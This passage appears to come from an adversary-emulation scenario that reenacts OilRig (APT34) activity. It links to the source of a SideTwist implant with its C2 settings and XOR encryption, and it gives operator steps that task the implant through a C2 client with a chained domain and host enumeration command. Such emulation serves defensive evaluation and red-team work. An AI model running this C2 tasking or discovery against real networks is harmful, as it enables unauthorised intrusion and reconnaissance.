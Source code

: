 <br>

*  SideTwist Implant: [SideTwist Implant](../Resources/SideTwist)
*  SideTwist collects ID info: [SideTwist.cpp#L238-L280](../Resources/SideTwist/SideTwist/SideTwist.cpp#L238-L280/)
*  SideTwist sets IP/port: [SideTwist.cpp#L180-L219](../Resources/SideTwist/SideTwist/SideTwist.cpp#L180-L219/)
*  SideTwist encrypts communications: [comms.cpp#L106-L111](../Resources/SideTwist/SideTwist/comms.cpp#L106-L111)
*  SideTwist XOR key: [comms.h#L23](../Resources/SideTwist/SideTwist/comms.h#L23)


<br>

### :microscope: Cited Intelligence
*  SideTwist: https://research.checkpoint.com/2021/irans-apt34-returns-with-an-updated-arsenal/
*  VBA coding/macros: https://www.intezer.com/blog/malware-analysis/new-iranian-campaign-tailored-to-us-companies-uses-updated-toolset/

<br>


## Step 2 - Workstation Discovery

### :microphone: Voice Track

Step 2 emulates OilRig performing a string of initial enumeration commands using 
the cmd spawned by `SystemFailureReporter.exe`.

OilRig enumerates the current user, system information, system network 
configuration information, domain users, domain groups, domain accounts, local 
groups, network connections, running processes, running services, and a 
registry key value to check if RDP is enabled.

At this point OilRig has discovered that the current user `gosta` is a member of
`EWS Admins`, that EWS server `WATERFALLS` has the ip address of `10.1.0.6` and 
is part of the `Exchange Trusted Subsystem` group, and the existence of several 
other administrator groups, including `SQL Admins` of which user `tous` is a member.

---

### ☣️ Procedures

:arrow_right: On Linux Attack Platform `192.168.0.4` as user `saka`, split the existing C2
terminal window horizontally, being careful to not terminate the server.

`Right click > Split Horizontally`

In the bottom split window, issue the following commands to the implant, 
waiting until each task is accomplished before teeing the next one. 

:bulb: The implant will execute every 5 minutes.

```bash
# Helminth has been observed to perform initial information gathering on systems, including the enumeration of the current user, accounts, groups, system information, network connections, processes, services, and if remote desktop is enabled.

./evalsC2client.py --set-task goTb '101 whoami & hostname & ipconfig /all & net user /domain 2>&1 & net group /domain 2>&1 & net group "domain admins" /domain 2>&1 & net group "Exchange Trusted Subsystem" /domain 2>&1 & net accounts /domain 2>&1 & net user 2>&1 & net localgroup administrators 2>&1 & netstat -an 2>&1 & tasklist 2>&1 & sc query 2>&1 & systeminfo 2>&1 & reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default" 2>&1'
```
